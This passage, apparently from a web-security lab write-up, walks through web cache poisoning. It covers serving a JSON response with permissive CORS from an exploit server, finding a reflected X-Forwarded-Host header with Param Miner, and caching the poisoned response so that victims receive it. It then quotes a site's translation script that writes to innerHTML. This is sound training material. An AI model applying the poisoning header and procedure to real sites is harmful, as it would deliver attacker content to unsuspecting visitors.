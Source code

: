 At the exploit server, paste that object to the body and change the headers to allow JSON and CORS:

    HTTP/1.1 200 OK
    Content-Type: application/json; charset=utf-8
    Access-Control-Allow-Origin: *

Now use `Param Miner` with `Guess Header`, we found that `X-Forwarded-Host` value is reflected into `data.host`. Send a `GET / HTTP/2` with this header to successfully manipulate the `data.host` value:

    X-Forwarded-Host: exploit-0a9f000903fd9ce5846a272b015b001e.exploit-server.net/exploit#

Resend this request, so that the malicious response is cached. Now when the victim visits the home page, he is served with this malicious response.

### LAB: Combining web cache poisoning vulnerabilities
Just like the above lab, this lab also support `X-Forwarded-Host` header and imports JSON from its value.
Look at this function:

    function initTranslations(jsonUrl)
    {
        const lang = document.cookie.split(';')
            .map(c => c.trim().split('='))
            .filter(p => p[0] === 'lang')
            .map(p => p[1])
            .find(() => true);

        const translate = (dict, el) => {
            for (const k in dict) {
                if (el.innerHTML === k) {
                    el.innerHTML = dict[k];
                } else {
                    el.childNodes.forEach(el_ => translate(dict, el_));
                }
            }
        }

        fetch(jsonUrl)
            .then(r => r.json())
            .then(j => {
                const select = document.getElementById('lang-select');
                if (select) {
                    for (const code in j) {
                        const name = j[code].name;
                        const el = document.createElement("option");
                        el.setAttribute("value", code);
                        el.innerText = name;
                        select.appendChild(el);
                        if (code === lang) {
                            select.selectedIndex = select.childElementCount - 1;
                        }
                    }
                }
